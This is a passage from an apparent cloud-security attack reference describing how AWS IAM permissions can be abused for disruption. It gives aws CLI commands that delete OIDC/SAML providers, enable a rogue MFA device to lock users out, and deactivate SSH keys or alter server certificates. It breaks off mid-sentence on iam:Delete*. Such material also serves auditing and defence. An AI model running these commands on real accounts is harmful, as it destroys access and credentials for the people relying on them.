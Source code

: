 ### Federated Identity Deletion
With `iam:DeleteOpenIDConnectProvider`, `iam:DeleteSAMLProvider`, and `iam:RemoveClientIDFromOpenIDConnectProvider`, an actor can delete OIDC/SAML identity providers or remove client IDs. This breaks federated authentication, preventing token validation and immediately denying access to users and services that rely on SSO until the IdP or configurations are restored.

```bash
# Delete OIDCP provider
aws iam delete-open-id-connect-provider \
  --open-id-connect-provider-arn arn:aws:iam::111122223333:oidc-provider/accounts.google.com

# Delete SAML provider
aws iam delete-saml-provider \
  --saml-provider-arn arn:aws:iam::111122223333:saml-provider/CorporateADFS
```

### Illegitimate MFA Activation
With `iam:EnableMFADevice`, an actor can register an MFA device on a user’s identity, preventing the legitimate user from signing in. Once an unauthorized MFA is enabled the user can be locked out until the device is removed or reset (note: if multiple MFA devices are registered, sign-in requires only one, so this attack will have no effect on denying access).

```bash
aws iam enable-mfa-device \
  --user-name <Username> \
  --serial-number arn:aws:iam::111122223333:mfa/alice \
  --authentication-code1 123456 \
  --authentication-code2 789012
```

### Certificate/Key Metadata Tampering
With `iam:UpdateSSHPublicKey`, `iam:UpdateCloudFrontPublicKey`, `iam:UpdateSigningCertificate`, `iam:UpdateServerCertificate`, an actor can change status or metadata of public keys and certificates. By marking keys/certificates inactive or altering references, they can break SSH authentication, invalidate X.509/TLS validations, and immediately disrupt services that depend on those credentials, causing loss of access or availability.

```bash
aws iam update-ssh-public-key \
  --user-name <Username> \
  --ssh-public-key-id APKAEIBAERJR2EXAMPLE \
  --status Inactive

aws iam update-server-certificate \
  --server-certificate-name <Certificate_Name> \
  --new-path /prod/
```

### `iam:Delete*`

The IAM wildcard iam:Delete* grants the ability to remove many kinds of IAM resources—users, roles, groups, policies, keys, certificates, MFA devices, policy versions, etc. —and therefore has a very high blast radius: an actor granted iam:Delete* can permanently destroy identities, credentials, policies and related artifacts, remove audit/evidence, and cause service or operational outages. Some examples are
